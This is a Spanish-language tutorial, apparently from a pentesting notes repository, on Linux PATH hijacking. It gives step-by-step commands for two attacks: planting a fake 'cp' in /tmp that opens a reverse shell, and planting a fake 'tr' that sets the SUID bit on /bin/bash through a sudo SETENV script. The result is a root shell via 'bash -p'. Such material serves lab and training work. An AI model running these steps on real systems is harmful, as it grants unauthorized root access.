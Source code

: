 <h1 align="center">Path Hijacking**</h1>

## **DEFINICIÓN:**

El Path Hijacking (Secuestro de Ruta) es una técnica de ataque donde un atacante manipula la variable de entorno PATH para ejecutar programas maliciosos en lugar de los programas legítimos.

## **FUNCIONAMIENTO**

- El atacante modifica la variable PATH para incluir directorios bajo su control al principio de la lista.

## **Localizar un script que ejecute un comando con la ruta relativa**

Por ejemplo, si leemos el script.sh, nos damos cuenta que hace lo siguiente:

- `cat script.sh`

- `cp /home/* /copia-home`

## **Manipular la variable $PATH**

- `echo PATH=/tmp:$PATH`

## **Crear el comando cp**

- `cd /tmp`
- `nano cp`
- `/bin/bash -c “reverse shell”`

## **EXPLICACIÓN**

Cuando se ejecute el comando cp del script, en el primer lugar que buscará el comando cp es en /tmp por lo que se ejecutará una reverse shell. Si este script lo ejecuta root tendremos una reverse shell como root.

## **Ejemplo de convertir el bash en suid con path hijacking**

### **Manual de Escalada de Privilegios: Shell como Root**

#### **Descripción**

En este manual, se explicará cómo escalar privilegios a root utilizando un script que puede ser ejecutado con sudo sin necesidad de contraseña (NOPASSWD) y con la capacidad de modificar variables de entorno (SETENV). Aprovecharemos la presencia de rutas relativas en el script para realizar un ataque conocido como **Path Hijacking**.

### **Enumeración Básica del Sistema**

**Verificación de Permisos con sudo**: Ejecuta el siguiente comando para ver los permisos del usuario gh0st:

- `sudo -l`

Deberías ver una salida similar a la siguiente:  

- `(ALL : ALL) SETENV: NOPASSWD: /opt/security.sh`

### **Análisis del Script**

1. **Analizar el Contenido del Script /opt/security.sh**: Revisa el script para identificar comandos que se ejecutan con rutas relativas. Esto es crucial para planificar el ataque de Path Hijackingm, EL SCRIPT CONTIENE EL COMANDO TR Y SE NOMBRA DE FORMA RELATIVA.

### **Ataque de Path Hijacking**

**Preparar el Entorno**: Nos movemos a un directorio donde tengamos permisos de escritura, como /tmp:  
- `cd /tmp`

**Crear un Script Malicioso**: Creamos un script llamado tr, que reemplazará al comando tr original y asignará permisos SUID al binario bash:  
- `echo '#!/bin/bash' > tr`

- `echo 'chmod +s /bin/bash' >> tr`

- `chmod +x tr`

**Modificar la Variable PATH**: Ajustamos la variable PATH para que incluya el directorio /tmp antes de las rutas habituales:  
`echo $PATH`

\# Verifica la ruta actual, debería mostrar algo como:

- `/usr/local/bin:/usr/bin:/bin:/usr/games`

- `PATH=/tmp:$PATH`

- `echo $PATH`

\# Verifica que ahora la ruta incluye /tmp al principio:

- `/tmp:/usr/local/bin:/usr/bin:/bin:/usr/games`

**Ejecutar el Script con Path Hijacking**: Ejecutamos el script security.sh especificando la variable de entorno PATH modificada: 

- `sudo -u 'root' PATH=/tmp:$PATH /opt/security.sh`

1. El script se ejecutará y utilizará nuestro script tr en lugar del comando tr original, activando el bit SUID en bash.

### **Verificar y Escalar Privilegios**

**Verificar Permisos del Binario bash**: Verifica que el bit SUID del binario bash está activo:  
- `ls -la /bin/bash`

Deberías ver una salida similar a esta, indicando que el bit SUID está activo:  
- `-rwsr-sr-x 1 root root 1234376 Mar 27 2022 /bin/bash`

**Obtener una Shell con Privilegios de Root**: Ahora puedes ejecutar bash con privilegios de root:  
- `bash -p`

**Verificar Usuario**: Comprueba que tienes privilegios de root:  
- `whoami`

Debería devolver:

- `root`
